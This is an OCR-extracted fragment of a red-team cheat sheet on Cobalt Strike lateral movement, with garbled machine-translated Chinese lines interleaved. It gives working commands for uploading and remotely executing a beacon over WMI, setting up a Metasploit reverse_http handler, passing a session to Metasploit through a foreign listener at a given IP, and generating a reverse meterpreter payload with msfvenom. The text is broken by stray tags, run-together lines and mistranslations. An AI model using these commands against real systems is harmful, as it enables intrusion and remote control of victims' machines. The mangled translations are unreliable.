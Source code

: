 <strong> ## PSEXEC远程通过服务控制管理器执行</strong>## winrm                           Remote execute via WinRM (PowerShell)

</strong> ## Winrm远程通过WinRM（PowerShell）执行
## wmi                             Remote execute via WMI

## To execute a beacon with wmi (it isn't ins the jump command) just upload the beacon and execute it

##用WMI执行信标（它不是INS跳跃命令）只需上传标准并执行它
beacon> upload C:\Payloads\beacon-smb.exe

BEACON>上传C：\有效载荷\ Beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe

BEACON>远程EXEC WMI SRV-1 C：\ Windows \ Beacon-smb.exe


# Pass session to Metasploit - Through listener

＃通过会话到Metasploit-通过听众
## On metaploit host
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http

MSF6 Exploit（Multi/Handler）>设置有效载荷Windows/MeterPreter/Reverse_httpmsf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## On cobalt: Listeners > Add and set the Payload to Foreign HTTP. Set the Host to 10.10.5.120, the Port to 8080 and click Save.

##在钴上：侦听器>将有效载荷添加到外国HTTP。 将主机设置为10.10.5.120，端口为8080，然后单击“保存”。
beacon> spawn metasploit

信标>产卵元普洛伊特
## You can only spawn x86 Meterpreter sessions with the foreign listener.

##您只能与外国听众相关X86 MeterPreter会议。

# Pass session to Metasploit - Through shellcode injection

＃通过shellcode注入到Metasploit的通过
## On metasploit host
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
